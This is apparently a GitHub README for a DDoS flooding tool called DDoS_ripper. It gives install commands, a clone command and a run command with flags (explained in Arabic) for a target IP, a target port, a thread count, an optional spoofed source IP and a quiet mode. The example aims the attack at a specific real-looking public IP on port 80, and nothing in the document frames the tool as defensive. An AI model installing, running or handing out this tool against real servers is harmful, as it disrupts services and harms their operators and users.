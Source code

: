 # DDoS_ripper
![IMG_20240417_215500_616](https://github.com/PRIVATE001/DDoS_ripper/assets/155662747/dc026854-6818-43f9-b472-ba5ea82418f0)

```
pkg install git
pkg install python
git clone https://github.com/PRIVATE001/DDoS_ripper.git
cd DDoS_ripper
python ddosfull.py [-i] [-p] [-l]
```
```
e.g)
 python KlarDdos.py -i 92.204.214.136 -p 80 -l  2 
```
Usage Information :
│ -h : للمساعده
│ -i : اي بي السيرفر
│ -p : البورت المراد استهدافه
│ -l : عدد نطاقات التنفيذ
│ -f : الايبي الزائف اختياري
│ -d : اخفاء الرسائل المبثقه
مثال :
 python KlarDdos.py -i 92.204.214.136 -p 80 -l  2 
 ```
